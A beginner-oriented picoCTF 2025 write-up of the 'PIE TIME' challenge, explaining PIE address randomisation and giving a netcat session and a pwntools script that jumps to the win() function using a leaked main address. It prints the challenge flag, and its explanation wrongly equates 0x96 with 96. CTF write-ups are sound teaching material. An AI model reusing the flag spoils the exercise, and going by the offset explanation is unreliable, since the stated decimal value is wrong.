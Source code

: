 # PIE TIME - picoCTF 2025 Writeup (For Absolute Beginners)

**Challenge Name:** PIE TIME
**Category:** Binary Exploitation (Don’t worry — we’ll explain!)
**Difficulty:** Easy
**Author:** Darkraicg492
**Platform:** picoCTF 2025
**Tags:** `beginner`, `binary`, `PIE`, `hacking`
**Flag:** ✅ `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}`

---

## 🤔 What’s This Challenge About?

This is a challenge from a hacking game called **picoCTF**. You're given a **small program** that hides a **secret code** (called a flag).

Your job is to find that flag.

The catch? The program is trying to make it hard by hiding the flag inside a secret part of itself, and moving that secret around every time it runs.

---

## 🧠 What’s a "Binary"?

In computers, a “binary” is just a program — like a `.exe` file on Windows or an app on your phone. It’s made of code that the computer can run.

In this challenge, you’re given one of those programs, and you have to trick it into showing you the secret.

---

## 🚧 But What’s PIE?

Great question!

**PIE** stands for **Position Independent Executable**. That’s a scary name, but here’s the simple idea:

Normally, a program keeps its important parts (like where the flag is) in the **same place** every time you run it.

But with PIE, the program says:

> "I’m going to hide my important parts in a **different** place **every** time!"

It’s like trying to find a key that someone hides in a new drawer every time you enter the room. So, how do we deal with that?

👉 Easy: Ask the program **where one thing is**, and then figure out where the secret is **relative** to it.

---

## 🪜 Step-by-Step Instructions

### ✅ Step 1: Run the program

You connect to the program using a tool called **netcat**.

Just open your terminal and run:

```bash
nc rescued-float.picoctf.net 50495
```

You’ll see something like:

```
Address of main: 0x5cc766cfa33d
Enter the address to jump to, ex => 0x12345:
```

Whoa! It’s giving us an address! Don’t worry if that looks scary. That’s actually helpful!

---

### 🧩 Step 2: What does this address mean?

The program is telling us:

> "Hey, this part of me called `main()` is at this location in memory: `0x5cc766cfa33d`."

Think of `main()` like a door in the building. The flag is in another door called `win()` — and it’s always the **same distance away** from `main()`, even though the building moves around.

From the files provided, we know that `win()` is **96 steps before** `main()`.

So all we do is:

> Take the number the program gave us, and **subtract 96** from it.

---

### 🧮 Step 3: Do the math

You can use Python to do it:

```python
print(hex(0x5cc766cfa33d - 0x96))
```

This gives you something like:

```
0x5cc766cfa2a7
```

That’s where the hidden `win()` function is — the one that gives us the flag!

---

### ✉️ Step 4: Send that new address back to the program

The program says:

> Enter the address to jump to

So just paste in:

```
0x5cc766cfa2a7
```

If it works, you’ll see something like:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

🎉 Boom! That’s the flag!

---

## 🤖 Want to Automate It?

If you get tired of doing the math by hand, you can write a **simple script** that does it for you.

Here’s an example using Python and a tool called `pwntools`:

```python
from pwn import *

host = "rescued-float.picoctf.net"
port = 50495

# Connect to the program
r = remote(host, port)

# Read the line that has the memory address
line = r.recvline_contains(b"Address of main:")
leaked_addr = int(line.split()[-1], 16)

# Subtract 96 (0x96 in hex)
win_addr = leaked_addr - 0x96
print(f"Jumping to: {hex(win_addr)}")

# Send the new address
r.sendline(hex(win_addr))

# Print what the program says next
print(r.recvall().decode())
```

---

## 📦 How to Use the Script

1. Save the code above in a file called `exploit.py`
2. Install pwntools (just once):

```bash
pip install pwntools
```

3. Run the script:

```bash
python3 exploit.py
```

You’ll get the flag automatically. Easy!

---

## 🏁 The Flag

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

---

## 🎓 What You Learned

* What a binary is (a program).
* What PIE is (the program moves stuff around).
* How to find something that moves, by tracking something else that moves with it.
* How to use math and automation to find secrets in a program.

---
